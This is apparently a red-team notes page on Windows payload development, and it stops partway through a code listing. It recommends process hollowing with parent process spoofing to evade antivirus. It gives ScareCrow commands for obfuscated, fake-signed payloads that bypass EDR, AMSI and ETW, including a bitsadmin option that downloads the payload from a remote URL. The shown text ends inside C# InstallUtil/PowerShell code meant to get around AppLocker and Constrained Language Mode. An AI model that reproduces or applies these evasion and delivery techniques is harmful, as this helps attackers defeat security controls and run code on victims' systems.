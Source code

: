 # __Windows & Linux client payload development__
>Author: Pieter Miske
---
### __Windows payload development:__ 
##### _Process Injection payloads:_
Process injection is a method of executing arbitrary code in the address space of a separate live process\. Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges\. Execution via process injection may also evade detection from security products since the execution is masked under a legitimate process\.
- For Process \(Hollowing\) Injection technique use [StagelessHollow](https://github.com/pietermiske/StagelessHollow) or [ProcessInjection](https://github.com/3xpl01tc0d3r/ProcessInjection)\.
- It is recommended to use the code as an example and create your own tools based on it\. This can help bypassing any AV solutions, hold custom shellcode and limit the need for arguments\. 
- Process Hollowing Injection compared to Vanilla Process Injecton still works but can raise unwanted attention if not combined with Parent Process Spoofing\. Therefore, it is recommended to use Parent Process Spoofing but make sure that the choosen parent process is suitable for injection\. 

##### _Create obfuscated and signed payload using ScareCrow:_
ScareCrow is a payload creation framework for side loading \(not injecting\) into a legitimate Windows process \(bypassing Application Whitelisting controls\)\. It leverages EDR flushing, AMSI/ETW bypassing, fake signing, and more\. 
- 1\. Generate a \.bin shellcode payload in your C2 framework \(e\.g\. Cobalt Strike, PoshC2\)
- 2\. Create obfuscated payload and compile it into a binary \(\.exe\) with fake code signing and all the good bypass stuff:
	- Compile payload (use a different domain if a Microsoft AV/EDR product is running on the target system) \([ScareCrow](https://github.com/optiv/ScareCrow)\): `./ScareCrow -I /<path to shellcode.bin> -domain <www.microsoft.com | www.cisco.com>`
	- Compile payload with bitsadmin remote download one\-liner \(ScareCrow\): `./ScareCrow -I /<path to shellcode.bin> -domain www.microsoft.com -delivery bits -url <URL to download payload from>`

##### _Payload leveraging InstallUtil & PowerShell Automation – bypass AppLocker/CLM:_
This payload can give you code execution in a by Applocker/CLM restricted environment by leveraging the native Windows Installutil program and the PowerShell Automation DLL\. 
>The payload must be downloaded to disk\. 
- 1\. Copy the following code to Visual Studio:
    ```Csharp
    using System;
    using System.Management.Automation;
    using System.Management.Automation.Runspaces;
    using System.Configuration.Install;
    
    namespace Bypass
    {
        class Program
        {
            static void Main(string[] args)
            {
            //main method is not required but can be used to bypass AV
            }   
        }
        [System.ComponentModel.RunInstaller(true)]
        public class Sample : System.Configuration.Install.Installer
        {
            public override void Uninstall(System.Collections.IDictionary savedState)
            {
                String cmd = "<PS COMMAND TO EXECUTE>";
                Runspace rs = RunspaceFactory.CreateRunspace();
                rs.Open();
                PowerShell ps = PowerShell.Create();